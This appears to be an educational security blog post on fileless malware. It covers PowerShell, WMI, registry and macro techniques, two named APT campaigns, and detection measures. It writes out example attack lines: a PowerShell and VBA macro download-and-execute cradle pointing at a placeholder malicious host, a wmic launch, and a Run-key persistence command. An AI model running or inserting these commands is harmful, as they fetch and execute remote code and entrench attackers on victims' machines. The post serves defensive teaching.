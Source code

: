 ```yaml
---
title: "Understanding Fileless Malware"
classes: wide
header:
  teaser: /assets/images/fileless/image.png
ribbon: DodgerBlue
description: "Exploring the techniques used by fileless malware to evade detection and persist in systems."
categories:
  - Malware Analysis
toc: true
date: 2024-08-26
---
```



# Understanding Fileless Malware

## What is Fileless Malware?

Fileless malware is a type of malicious software that operates without needing to install files directly onto a victim's device. Unlike traditional malware, which relies on executable files, fileless malware leverages existing software, legitimate system tools, and protocols to execute its payload. This makes detection and mitigation more challenging, as it doesn't leave behind traditional footprints that antivirus software typically looks for.

<style>
    img {
        max-width: 100%;
        height: auto;
    }
</style>

<p align="center">
    <img src="https://raw.githubusercontent.com/daniyyell-dev/draw.io/main/fileless_Malware.png" alt="Fileless Malware">
</p>

<p align="center"><em>Fileless Malware Overview</em></p>

### How Does Fileless Malware Work?

Fileless malware operates by injecting malicious code into legitimate processes running in memory. Here are some common techniques used by fileless malware:

### PowerShell Scripts

Attackers often use PowerShell, a legitimate Windows administration tool, to execute malicious scripts directly in memory. PowerShell scripts can download and execute additional payloads, conduct reconnaissance, and establish persistence.

### Example of a Malicious PowerShell Command

`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://malicious-site.com/malware.ps1')"`

### Windows Management Instrumentation (WMI)

WMI allows attackers to gather information and execute code without needing to drop files on the system. It is often used for lateral movement and persistence.

### Example of WMI Usage for Persistence

`wmic process call create "powershell -NoProfile -ExecutionPolicy Bypass -Command 'Get-Content malicious.ps1 | iex'"`

### Registry Manipulation

Malicious code can be stored and executed directly from the Windows registry, avoiding the file system altogether. This technique is often used to achieve persistence.

### Example of Registry Persistence

`Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "powershell -NoProfile -ExecutionPolicy Bypass -File C:\malicious.ps1"`

### Macros and Scripts

Infected macros in documents (e.g., Microsoft Word or Excel) can run malicious scripts when the document is opened. These macros can download and execute additional payloads from the internet.

### Example of a Malicious VBA Macro

vba script sample

'Sub AutoOpen()
    Dim objShell As Object
    Set objShell = CreateObject("WScript.Shell")
    objShell.Run "powershell -NoProfile -ExecutionPolicy Bypass -Command IEX (New-Object Net.WebClient).DownloadString('https://malicious-site.com/malware.ps1')", 0, True
End Sub'

### Examples of Fileless Malware Attacks

**Operation Cobalt Kitty**

In this attack, a sophisticated cyber espionage group used fileless techniques to infiltrate and persist in a corporate network. They utilized PowerShell scripts and WMI to move laterally and exfiltrate sensitive data without dropping any traditional malware files. Read more <a href="https://www.cybereason.com/blog/operation-cobalt-kitty-apt">Operation Cobalt Kitty: A large-scale APT in Asia carried out by the OceanLotus Group</a>


**APT28/Sofacy**

The APT28 group, also known as Sofacy, used fileless malware to target government institutions and defence contractors. They employed macros embedded in Office documents to execute PowerShell scripts, thereby compromising systems without writing files to disk. Read More here <a href="https://www.crowdstrike.com/blog/who-is-fancy-bear/">Who is FANCY BEAR (APT28)?</a>



### Detection and Prevention

Detecting fileless malware requires a multi-layered security approach, including:

#### Behavioral Analysis

Monitoring unusual behaviour patterns in legitimate processes can help identify fileless malware activity. This involves looking for abnormal usage of tools like PowerShell and WMI.

#### Endpoint Detection and Response (EDR)

EDR tools can detect suspicious activities in memory and registry that traditional antivirus solutions might miss. These tools often use machine learning and behaviour analytics to identify threats.

#### PowerShell Logging

Enabling PowerShell script block logging helps detect and investigate potentially malicious scripts. This provides visibility into the execution of commands and scripts on endpoints.

**Enable PowerShell Script Block Logging**

`Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1`

#### Least Privilege Principle

Limiting user permissions can prevent malicious scripts from executing critical system changes. Ensure that users have the minimum necessary access rights.


### Conclusion

Fileless malware represents a significant threat due to its stealthy nature and ability to evade traditional detection methods. Understanding how it operates and employing robust detection and prevention measures is crucial for protecting against these sophisticated attacks.

Stay vigilant and keep your security tools and practices up to date to defend against the ever-evolving threat landscape.

### References

1. <a href="https://www.cybereason.com/blog/operation-cobalt-kitty-apt">Operation Cobalt Kitty APT - Cybereason</a>
2. <a href="https://www.crowdstrike.com/blog/who-is-fancy-bear/">Who is Fancy Bear?</a>

